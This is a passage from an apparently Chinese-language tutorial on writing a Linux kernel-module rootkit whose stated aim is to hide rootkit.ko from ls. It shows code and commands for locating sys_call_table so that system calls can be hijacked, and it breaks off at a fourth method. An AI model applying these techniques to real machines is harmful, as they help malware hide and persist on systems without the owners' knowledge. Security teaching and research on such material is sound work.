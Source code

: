 ## 隱之呼吸參之型 - Loadable Kernel Module

### 條件

需要 root

### 目標

在 `ls` 的結果中隱藏 `rootkit.ko`

### 取得 sys_call_table

首先因為我們要 hijack system call 所以要先取得 `sys_call_table` 的位址

#### 方法一

* 在 2.4 以前的內核版本，預設導出所有符號，所以可以直接用
* 如果自己編譯內核的話，可以修改原始碼用 `EXPORT_SYMBOL` 把 `sys_call_table` 的符號導出來

```c
extern void *sys_call_table[];
```

#### 方法二

`kallsyms_lookup_name` 這個函式也可以抓位址，但他也不一定會被導出

```c
#include <linux/kallsyms.h>

static void **sys_call_table;

static int __init hook_init (void) {
    sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
    printk(KERN_INFO "sys_call_table = 0x%px\n", sys_call_table);
    return 0;
}
```

{% admonition question "How to printk a pointer ?" %}
    要用 printk 印出 pointer 可以用 `%px`  
    `%p` 只會印出該指標的雜湊值而不是真正的指標的值，這是為了避免洩漏內核位址
{% endadmonition %}

#### 方法三

* 下面兩個檔案路徑有可能會有 sys_call_table 的位址
* /proc/kallsyms 是一個特殊的檔案，會在讀取時動態產生

```bash
cat /boot/System.map-$(uname -r) | grep "sys_call_table"
cat /proc/kallsyms | grep  "sys_call_table"
```

#### 方法四
